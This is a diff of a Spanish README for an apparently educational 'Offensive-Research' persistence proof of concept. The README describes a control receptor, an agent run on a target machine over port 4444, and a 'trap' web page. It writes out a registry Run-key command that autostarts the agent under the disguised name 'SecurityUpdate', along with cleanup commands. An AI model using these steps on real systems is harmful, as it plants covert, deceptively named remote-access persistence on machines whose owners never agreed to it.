

Before and after one commit to xalexlopez00/Offensive-Research, a Markdown page: Persistence-PoCs/Network-Shield-System/readme.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/Persistence-PoCs/Network-Shield-System/readme.md
+++ b/Persistence-PoCs/Network-Shield-System/readme.md
@@ -6,7 +6,7 @@ Este proyecto es una Prueba de Concepto (PoC) diseñada para estudiar el funcion
 🛠️ Requisitos del Sistema
 XAMPP: Servidor Apache y MySQL (MariaDB).
 
-Python 3.x: Instalado en el PATH del sistema.
+Python 3.x: Instalado en el PATH.
 
 Librerías: Ejecuta pip install requests en tu terminal.
 
@@ -22,7 +22,7 @@ Crea una base de datos llamada network_shield_db.
 
 Importa el contenido de server/db.txt en la pestaña SQL.
 
-2. Configuración del Servidor Web
+🔗 2. Configuración del Servidor Web
 Mueve la carpeta Network-Shield-System a C:\xampp\htdocs\.
 
 El panel será accesible en: http://localhost/Network-Shield-System/server/index.php.
@@ -31,8 +31,7 @@ El panel será accesible en: http://localhost/Network-Shield-System/server/index
 Sigue este orden estricto para establecer el enlace:
 
 🟢 Paso 1: Iniciar el Receptor (Master)
-Abre una terminal en la carpeta master/ y lanza el centro de control ejecutando:
-python receptor.py
+Abre una terminal en la carpeta master/ y lanza el centro de control ejecutando:python receptor.py
 
 🔵 Paso 2: Lanzar el Agente (Client)
 Ejecuta el script en el equipo objetivo para iniciar la conexión:
@@ -47,16 +46,13 @@ Simulación Web: Accede a http://localhost/Network-Shield-System/server/trampa.p
 La persistencia permite que el agente se ejecute automáticamente al iniciar sesión en Windows.
 
 1️⃣ Instalación (Crear Registro)
-Envía este comando desde la terminal del receptor para registrar el agente:
-reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "pythonw.exe C:\xampp\htdocs\Network-Shield-System\client\agente.pyw" /f
+Envía este comando desde la terminal del receptor para registrar el agente:reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "pythonw.exe C:\xampp\htdocs\Network-Shield-System\client\agente.pyw" /f
 
 2️⃣ Comprobación (Verificar Estado)
-Para confirmar que el registro se ha creado correctamente, ejecuta:
-reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate"
+Para confirmar que el registro se ha creado correctamente, ejecuta:reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate"
 
 3️⃣ Eliminación (Limpieza del Sistema)
-Para desactivar el inicio automático y dejar el sistema limpio, ejecuta:
-reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /f
+Para desactivar el inicio automático y dejar el sistema limpio, ejecuta:reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /f
 
 📂 Estructura del Repositorio
 📁 server/: Panel de control web y base de datos.
@@ -78,5 +74,3 @@ reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpda
 ¿No conecta?: Verifica que el puerto 4444 esté abierto en el Firewall de Windows.
 
 ¿No aparece en la Web?: Revisa que la URL en agente.py sea idéntica a tu ruta en XAMPP.
-
-¿Error de SQL?: Asegúrate de que el usuario de MySQL sea root y no tenga contraseña.
```
